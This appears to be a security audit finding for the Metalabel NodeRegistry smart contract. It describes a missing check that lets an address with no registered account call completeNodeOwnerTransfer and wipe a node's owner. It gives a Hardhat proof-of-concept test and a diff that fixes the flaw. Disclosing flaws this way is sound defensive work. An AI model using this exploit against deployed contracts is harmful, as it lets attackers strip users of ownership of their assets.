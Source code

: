 There is currently no verification that ownership transfer has started. In other words `completeNodeOwnerTransfer` can be called before or without even calling `startNodeOwnerTransfer`. This opens the possibility for any malicious user to call `completeNodeOwnerTransfer` from an address that does not have an account registered in the AccountRegistry contract (`accounts.resolveId(msg.sender)` will be equal to 0). Therefore, the only check used to verify that msg.sender is the new owner will pass, as both values will be the default uint64 mapping values (0).

#### **Proof Of Concept**

Place the following test case in [test/NodeRegistry.spec.ts](https://github.com/metalabel/metalabel-contracts-v1/blob/effe2e89996d6809c5ec6c6da10c663246f91fc1/test/NodeRegistry.spec.ts)

```js
const [user, attacker] = await ethers.getSigners();

// User creates an account.
await accountRegistry.createAccount(user.address, "");
const userAccountId = await accountRegistry.resolveId(user.address);

// User creates a node and sets their Metalabel account as the owner of this node.
await createNode({ owner: userAccountId.toNumber() });
const userNodeId = await nodeRegistry.totalNodeCount();

// Assert setup.
expect(await nodeRegistry.ownerOf(userNodeId)).to.eq(userAccountId);

// Attacker that has no Metalabel account calls nodeRegistry.completeNodeOwnerTransfer(userNodeId).
expect(await accountRegistry.resolveId(attacker.address)).to.eq(0);
await nodeRegistry.connect(attacker).completeNodeOwnerTransfer(userNodeId);

// Attacker deletes the owner of the user's node. Exploit is successful.
expect(await nodeRegistry.ownerOf(userNodeId)).to.eq(0);
```

#### **Recommended Mitigation Steps**

Ensure that `NodeRegistry.completeNodeOwnerTransfer(uint64 id)` can not be called when `pendingNodeOwnerTransfers[id]` is 0:

```diff
/// @notice Complete the 2-step node transfer process. Can only be called by
/// by the new owner
function completeNodeOwnerTransfer(uint64 id) external {
    uint64 newOwner = pendingNodeOwnerTransfers[id];
    uint64 accountId = accounts.resolveId(msg.sender);

+   if (newOwner == 0) revert NodeOwnerTranferNotStarted();
    if (newOwner != accountId) revert NotAuthorizedForNode();

    nodes[id].owner = newOwner;
    delete pendingNodeOwnerTransfers[id];
    emit NodeOwnerSet(id, newOwner);
}
```
